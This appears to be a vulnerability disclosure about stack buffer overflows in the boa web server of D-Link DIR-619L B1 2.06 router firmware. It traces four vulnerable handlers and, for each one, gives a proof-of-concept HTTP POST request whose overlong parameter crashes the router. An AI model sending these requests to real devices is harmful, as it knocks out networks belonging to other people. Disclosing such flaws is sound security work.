 # DIR-619L Buffer Overflow

D-Link DIR-619L B1 2.06 was found to contain stack overflows in multiple functions in /bin/boa, This vulnerability allows attackers to trigger a denial of service (DoS) through web page parameters. The boa binary is responsible for serving http connection received by the device. 

Product: D-Link DIR-619L

Affected firmware Version: B1 2.06

firmware link: https://support.dlink.com/resource/products/DIR-619L/REVB/DIR-619L_REVB_FIRMWARE_PATCH_2.06.B01_WW.ZIP

![image](https://github.com/YuboZhaoo/IoT/assets/154046274/06da0c59-fe71-4b6e-8f1d-72d321d00225)

## 1. formWPS Function

### **Vulnerability description**

The websGetVar function obtains the "webpage" parameter from the front-end, whitch is first assigned to the global variable by the strcpy function (as shown at line 23-24 of Figure 1), and then this global variable is finally passed to the sprintf function as an argument (as shown in Figure 2-4). However, due to the lack of data length restrictions, a buffer overflow vulnerability is created.

![image](https://github.com/YuboZhaoo/IoT/assets/154046274/48670541-93c4-4996-8adb-3c156df6747b)

Figure 1

![image](https://github.com/YuboZhaoo/IoT/assets/154046274/b608c2cf-026d-4e19-a64d-a78e851f7a77)

Figure 2

![image](https://github.com/YuboZhaoo/IoT/assets/154046274/2c8c10ba-a04c-48bf-91fe-c2173d4ec860)

Figure 3

![image](https://github.com/YuboZhaoo/IoT/assets/154046274/85f47264-a9ea-4032-b212-f978bd0fe718)

Figure 4

### **Reproduce and POC**
First connext to the DIR-691L real device or start frimware in QEMU. 

Use the default username and password to login web.

After logging in, attackers can send a long "webpage" parameter via the following malicious post request in Burpsuite or python: 

```
POST /goform/formWPS HTTP/1.1
Host: 192.168.0.1
Content-Length: 222
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Content-type: application/x-www-form-urlencoded
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/Basic/Networkmap.asp?t=1715050258057
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

webpage=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

Then the router crashed, a denial of service happened.

![image](https://github.com/YuboZhaoo/IoT/assets/154046274/d05e8280-4f12-4351-aac3-99d648ec1e9a)




## 2. formWlanSetup_Wizard Function

### **Vulnerability description**

The websGetVar function obtains the "webpage" parameter from the front-end, whitch is first assigned to the global variable by the strcpy function (as shown at line 32-34 of Figure 1), and then this global variable is assigned to the v16 by the strcpy function (as shown at line 46 of Figure 1). However, due to the lack of data length restrictions, a buffer overflow vulnerability is created.

![image](https://github.com/YuboZhaoo/IoT/assets/154046274/6cac466b-5990-4a3a-80d6-fe98379131aa)

Figure 1

### **Reproduce and POC**
First connext to the DIR-691L real device or start frimware in QEMU. 

Use the default username and password to login web.

After logging in, attackers can send a long "webpage" parameter via the following malicious post request in Burpsuite or python: 

```
POST /goform/formWlanSetup_Wizard HTTP/1.1
Host: 192.168.0.1
Content-Length: 222
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Content-type: application/x-www-form-urlencoded
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/Basic/Networkmap.asp?t=1715051006529
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close


webpage=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

Then the router crashed, a denial of service happened.
![image](https://github.com/YuboZhaoo/IoT/assets/154046274/eec8d872-3164-4fc4-9c64-73ce987b550e)



## 3. formWlanGuestSetup Function

The websGetVar function obtains the "webpage" parameter from the front-end, whitch is first assigned to the global variable by the strcpy function (as shown at line 89-92 of Figure 1), and then this global variable is passed into websRedirect function (as shown at line 490-492 of Figure 2), and finally it is passed to the sprintf function as an argument (same as the first vulnerability). 

However, due to the lack of data length restrictions, a buffer overflow vulnerability is created.


![image](https://github.com/YuboZhaoo/IoT/assets/154046274/38840092-7ecc-46c2-812f-aa70205cc45b)

Figure 1

![image](https://github.com/YuboZhaoo/IoT/assets/154046274/4080e473-81f5-47da-8681-187487260366)

Figure 2

### **Reproduce and POC**
First connext to the DIR-691L real device or start frimware in QEMU. 

Use the default username and password to login web.

After logging in, attackers can send a long "webpage" parameter via the following malicious post request in Burpsuite or python: 

```
POST /goform/formWlanGuestSetup HTTP/1.1
Host: 192.168.0.1
Content-Length: 222
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Content-type: application/x-www-form-urlencoded
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/Basic/Networkmap.asp?t=1715051493922
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

webpage=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

Then the router crashed, a denial of service happened.
![image](https://github.com/YuboZhaoo/IoT/assets/154046274/756e0039-450e-42eb-8c1a-69239a194088)



## 4. formTcpipSetup

The websGetVar function obtains the "curTime" parameter from the front-end (as shown at line 61 of Figure 1), and stores the data on the stack through the sprintf function (as shown at line 86-88 of Figure 1). However, due to the lack of data length restrictions, a buffer overflow vulnerability is created.

![image](https://github.com/YuboZhaoo/IoT/assets/154046274/969c4f35-5f00-445b-b69b-7361ba6de285)

Figure 1

![image](https://github.com/YuboZhaoo/IoT/assets/154046274/7db6f033-31d8-46b9-9d79-76185b4102eb)

Figure 2

### **Reproduce and POC**
First connext to the DIR-691L real device or start frimware in QEMU. 

Use the default username and password to login web.

After logging in, attackers can send a long "curTime" parameter via the following malicious post request in Burpsuite or python: 

```
POST /goform/formTcpipSetup HTTP/1.1
Host: 192.168.0.1
Content-Length: 222
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Content-type: application/x-www-form-urlencoded
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/Basic/Networkmap.asp?t=1715051676439
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

curTime=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

Then the router crashed, a denial of service happened.
![image](https://github.com/YuboZhaoo/IoT/assets/154046274/343f2513-3038-4a14-8060-4994578b7f26)



### Discoverers
[@YuboZhaoo](https://github.com/YuboZhaoo),  [@ZhouZiyi1](https://github.com/ZhouZiyi1) 
